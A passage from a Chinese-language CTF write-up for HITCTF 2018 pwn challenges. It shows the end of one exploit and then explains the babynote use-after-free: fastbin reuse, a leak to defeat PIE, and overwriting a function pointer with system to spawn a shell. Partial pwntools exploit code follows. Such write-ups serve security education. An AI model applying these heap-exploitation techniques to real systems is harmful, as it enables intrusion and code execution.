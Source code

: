 ```python
edit(puts_addr,system_addr,"0")
p.sendline("3")
p.interactive()
```
## <span id="5">babynote(400)</span>
很常见的菜单程序，提供了添加、编辑、打印和删除note的功能，note的结构体如下所：

![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn400_babynote/imgaes/1.png?raw=true)

content的大小可以自己定义
	程序删除note的时候，并没有将对应存储指针的全局变量设为空，仍然可以被使用，存在uaf漏洞，考虑到note结构体的大小，可以用fastbin的uaf来做。
	首先分配两个note，note0和note1，两个note的content被malloc分配的大小设为与note结构体的大小不等，然后删除note0和note1，再添加note2，content大小申请为0xc，根据堆的分配规则，此时note2和note1指向同一个fastbin，note2的content和note0指向同一个fastbin。由于程序开启了pie，首先要想办法确定elf的地址，然后才能泄漏libc，这里可以通过填充note2的content与note0上的函数指针void (*print)(struct note *)相连，来打印函数指针的地址，确定elf的地址。然后继续修改note2的content，改变note0的content指针，可以实现任意地址读写，最后可以修改note0的函数指针为system，并在结构体头部放置/bin/sh，调用打印函数来获取shell，exp如下：
```python
from pwn import*

printf_got = 0x3010
libc_system = 0x0003ADA0
libc_printf  = 0x00049670 

def add(size,content):
	io.recvuntil("Your choice :")
	io.sendline('1')
	io.recvuntil("Content size:")
	io.sendline(size)
	io.recvuntil("Input the content:")
	io.send(content)
	io.recvuntil("Success !\n")
	
def edit(index,content):
	io.recvuntil("Your choice :")
	io.sendline('2')
	io.recvuntil("Input the index:")
	io.sendline(index)
	io.recvuntil("New content:")
	io.sendline(content)
	io.recvuntil("Success !\n")

def delete(index):
	io.recvuntil("Your choice :")
	io.sendline('4')
	io.recvuntil("Input the index:")
	io.sendline(index)
	io.recvuntil("Success !\n")

def printnote(index,flag = 0):
	io.recvuntil("Your choice :")
	io.sendline('3')	
	io.recvuntil("Input the index:")
	io.sendline(index)
	if flag == 0:
		io.recvuntil("aaaaaaa\n")
		addr = io.recv(4)
		io.recvuntil("\n")
		return int(addr[0:4][::-1].encode("hex"),16)
	else:
		addr = io.recvuntil("\n")
		return int(addr[0:4][::-1].encode("hex"),16)

```